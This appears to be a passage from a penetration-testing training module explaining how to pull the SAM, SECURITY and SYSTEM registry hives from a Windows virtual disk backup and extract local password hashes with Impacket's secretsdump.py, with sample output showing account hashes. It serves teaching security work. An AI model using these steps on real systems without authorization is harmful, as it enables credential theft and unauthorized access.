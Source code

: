 <figure><img src="../../../../.gitbook/assets/image 5 (1) (1).png" alt=""><figcaption></figcaption></figure>

#### **Retrieving Hashes using Secretsdump.py**

Why do we care about a virtual hard drive (especially Windows)? If we can locate a backup of a live machine, we can access the `C:\Windows\System32\Config` directory and pull down the `SAM`, `SECURITY` and `SYSTEM` registry hives. We can then use a tool such as [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) to extract the password hashes for local users.

```bash
irix@htb[/htb]$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x35fb33959c691334c2e4297207eeeeba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)

<SNIP>
```

